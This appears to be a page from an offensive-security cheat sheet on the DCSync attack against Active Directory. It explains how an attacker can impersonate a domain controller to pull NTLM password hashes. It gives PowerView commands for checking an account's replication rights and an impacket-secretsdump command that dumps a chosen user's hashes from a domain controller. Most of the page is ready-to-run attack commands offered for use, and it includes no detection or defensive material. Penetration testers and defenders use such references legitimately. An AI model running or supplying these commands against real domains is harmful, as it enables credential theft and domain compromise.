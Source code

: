# DS-Replication-Get-Changes and DS-Replication-Get-Changes-All (Extended Right) **DCSync attack**
**DCSync** is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.
- To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the **Replicating Directory Changes** and **Replicating Directory Changes All** permissions set).
- Domain/Enterprise Admins and default domain administrators have this right by default.
## Check user's Replication Rights
### Using PowerView
1. Identify the target user and verify their group memberships
```powershell
Get-DomainUser -Identity <user> | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```
2. Verify Replication Rights
```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```
<img width="1443" height="115" alt="image" src="https://github.com/user-attachments/assets/be6df894-74e1-44c5-9e06-c1ed39261fc3" />

### Using BloodHound


## DCSync Attack from Linux (Non-Domain Machine)

```shell
impacket-secretsdump -just-dc-user <username> <domain>/<admin_user>:<password>@<dc_ip>
```
